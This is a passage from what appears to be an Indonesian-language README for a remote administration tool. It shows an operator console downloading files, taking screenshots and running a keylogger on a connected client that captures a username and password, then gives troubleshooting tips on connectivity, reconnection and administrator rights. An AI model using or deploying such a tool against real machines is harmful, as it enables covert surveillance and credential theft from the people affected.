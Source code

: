 ```
-rw-r--r-- example.txt

> download c1e4a8f2 /home/user1/example.txt ./downloaded_example.txt
File downloaded successfully: ./downloaded_example.txt

> screenshot c1e4a8f2
Screenshot saved as: screenshot_c1e4a8f2_2023-06-15_10-30-45.png

> keylogger c1e4a8f2 start
Keylogger started on client c1e4a8f2

> keylogger c1e4a8f2 dump
Keylogger data:
username[Tab]password[Enter]ls -la[Enter]

> keylogger c1e4a8f2 stop
Keylogger stopped on client c1e4a8f2

> exit
Server shutting down...
```

## Troubleshooting

### Koneksi Gagal

- **Masalah**: Client tidak dapat terhubung ke server
- **Solusi**:
  - Pastikan server berjalan dan mendengarkan port yang benar
  - Verifikasi alamat IP server benar
  - Periksa firewall yang mungkin memblokir koneksi
  - Pastikan port forwarding dikonfigurasi jika berada di jaringan berbeda

### Client Terputus

- **Masalah**: Client terputus dari server
- **Solusi**:
  - Client secara default akan coba terhubung kembali setiap 30 detik
  - Untuk mengubah interval, gunakan opsi `-i` saat menjalankan client
  - Verifikasi tidak ada masalah jaringan

### Permission Issues

- **Masalah**: Operasi gagal karena masalah izin
- **Solusi**:
  - Pastikan executable memiliki izin eksekusi (`chmod +x bin/server bin/client`)
  - Untuk beberapa operasi (seperti keylogger), client mungkin memerlukan hak administratif
  - Di Windows, coba jalankan sebagai Administrator

### Error Kompilasi
